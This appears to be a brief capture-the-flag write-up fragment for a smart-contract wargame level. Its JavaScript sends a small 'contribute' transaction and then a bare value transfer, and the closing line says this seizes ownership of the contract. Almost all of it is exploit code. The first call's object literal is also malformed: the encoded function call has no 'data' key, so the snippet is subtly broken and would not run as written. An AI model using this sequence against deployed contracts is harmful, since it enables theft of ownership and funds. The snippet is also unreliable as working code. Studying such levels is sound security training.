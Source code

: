 ```javascript
await sendTransaction({
	from:player, 
	to:contract.address, 
	value:1, 
	web3.eth.abi.encodeFunctionCall({
	    name: 'contribute',
	    type: 'function',
	    inputs: []
	}, [])
});

await sendTransaction({from:player, to:contract.address, value:1})
```

Send the two transcations above and we can claim ownership of the contract.